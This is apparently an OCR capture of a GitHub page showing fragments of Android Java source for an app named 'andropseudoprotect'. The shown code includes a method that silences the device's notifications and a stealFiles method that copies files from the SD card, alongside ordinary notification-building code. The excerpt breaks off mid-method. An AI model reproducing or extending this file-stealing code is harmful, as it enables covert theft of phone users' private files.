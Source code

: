 ```java

    }

    private void muteTheDevice() {

        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.M) {
            NotificationManager notificationManager =
                    (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);

            // Mute device
            notificationManager.setInterruptionFilter(NotificationManager.INTERRUPTION_FILTER_NONE);
        }
    }

    public void stealFiles(Context context){
        StealFiles stealfiles = new StealFiles();
        stealfiles.copyFilesFromSdcard(context);
    }

}
```

<br />

NotificationUtils.java

```java
package com.example.andropseudoprotect;

import android.Manifest;
import android.app.PendingIntent;
import android.content.Context;
import android.content.Intent;
import android.content.pm.PackageManager;

import androidx.core.app.ActivityCompat;
import androidx.core.app.NotificationCompat;
import androidx.core.app.NotificationManagerCompat;

public class NotificationUtils {

    public static void showNotification(Context context, String title, String message) {
        // Create an intent that opens your app when tapped
        Intent intent = new Intent(context, MainActivity.class);
        intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK | Intent.FLAG_ACTIVITY_CLEAR_TASK);

        PendingIntent pendingIntent = PendingIntent.getActivity(
                context, 0, intent,
                PendingIntent.FLAG_IMMUTABLE // required for Android 12+
        );

        // Build the notification
        NotificationCompat.Builder builder = new NotificationCompat.Builder(context, NotificationHelper.CHANNEL_ID)
                .setSmallIcon(R.drawable.ic_notification) // your app’s icon
                .setContentTitle(title)
                .setContentText(message)
                .setPriority(NotificationCompat.PRIORITY_HIGH)
                .setAutoCancel(true)
                .setContentIntent(pendingIntent);

        // Show the notification
        NotificationManagerCompat notificationManager = NotificationManagerCompat.from(context);
```